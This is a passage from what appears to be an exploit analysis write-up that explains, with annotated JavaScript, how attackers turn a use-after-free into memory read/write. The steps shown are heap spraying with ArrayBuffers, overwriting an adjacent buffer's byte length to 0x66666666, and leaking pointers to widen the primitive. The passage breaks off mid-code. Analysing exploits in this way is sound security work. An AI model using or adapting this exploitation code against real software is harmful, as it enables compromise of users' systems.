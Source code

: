 <p class="cn" markdown="1">Now all the attackers need to do is allocate a TypedArray of size 0x20000 and using the `sprayarr` reference, find it to overwrite the next ArrayBuffer's byte length.</p>

```JavaScript
    // reclaims the memory, like your typical use after free
    for(var i1 = 1; i1 < 0x40; i1++){
        sprayarr2[i1] = new ArrayBuffer(0x20000-24);
    }

    // look for the TypedArray that is 0x20000 in size
    for(var i1 = 1; i1 < spraynum; i1++){
        if( sprayarr[i1].byteLength == 0x20000-24){
            
            // This is the magic, overwrite the next TypedArray's byte length
            var biga = new DataView(sprayarr[i1]);

            // offset to the byte length in the header
            biga.setUint32(0x10000 - 12, 0x66666666);

            // +1 because the next reference as a corrupted length now.
            if(sprayarr[i1 + 1].byteLength == 0x66666666){

                // game over attackers can read/write out of biga
                biga = new DataView(sprayarr[i1 + 1]);

                ...
```

<p class="cn" markdown="1">Now that they know, which TypedArray has a large size (`if( sprayarr[i].byteLength == 0x20000-24)`), they use it to overwrite the byte length of the adjacent ArrayBuffer (`var biga = new DataView(sprayarr[i]); biga.setUint32(0x10000-12,0x66666666);`). Then they just check that the next ArrayBuffer has a matching byte length (`if(sprayarr[i+1].byteLength == 0x66666666)`) and if it does, then they have a relative read/write out of that adjacent ArrayBuffer using a DataView (`biga = new DataView(sprayarr[i+1]);`).</p>

<p class="cn" markdown="1">At this stage, they need to upgrade this primitive to a full read/write primitive across the whole process space, so they leak a pointer and base address of an Array that hold's TypedArray's.</p>

```
            var arr = new Array(0x10000);
            for(var i2 = 0x10; i2 < 0x10000; i2++)
                arr[i2] = new Uint32Array(1);
            for(var i2 = 1; i2 < 0x10; i2++){
                arr[i2] = new Uint32Array(sprayarr[i1 + i2]);

                // set the index into the first element of the TypedArray
                // so that the attackers where they are
                arr[i2][0] = i2;
            }
            
            for(var i2 = 0x30000; i2 < (0x10000 * 0x10); i2 = i2 + 4)
            {
                if( biga.getUint32(i2, true) == spraylen && biga.getUint32(i2 + 4, true) > spraypos ){
                    
                    // save a reference to the relative read/write TypedArray
                    mydv = biga;

                    // leak the index
                    var itmp = mydv.getUint32(i2 + 12, true);

                    // get a reference to TypedArray that they overwrite
                    myarray = arr1[itmp];

                    // get the index to the pointer of the TypedArray
```